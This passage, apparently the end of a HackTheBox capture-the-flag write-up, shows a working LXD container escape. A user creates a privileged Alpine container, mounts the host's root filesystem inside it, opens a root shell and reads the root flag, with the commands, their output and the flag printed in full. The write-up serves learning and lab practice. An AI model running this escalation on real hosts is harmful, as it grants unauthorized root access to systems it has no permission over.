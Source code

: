 Now for the execution. First, we need to set the `security.privileged` flag to true in order to give us root privileges. Afterwards, we will mount the root file system to `/mnt` so we have access to all the root files.

```console
mike@included:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
mike@included:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
```

Finally, we can launch the container and spawn the shell.

```console
mike@included:~$ lxc start privesc
lxc start privesc
mike@included:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # whoami  
root
```

And get the flag.

```console
/ # cd mnt/root/root
/mnt/root/root # ls       
root.txt
/mnt/root/root # cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
```

**Flag:** `c693d9c7499d9f572ee375d4c14c7bcf`

---
**Tags:** [[HackTheBox]]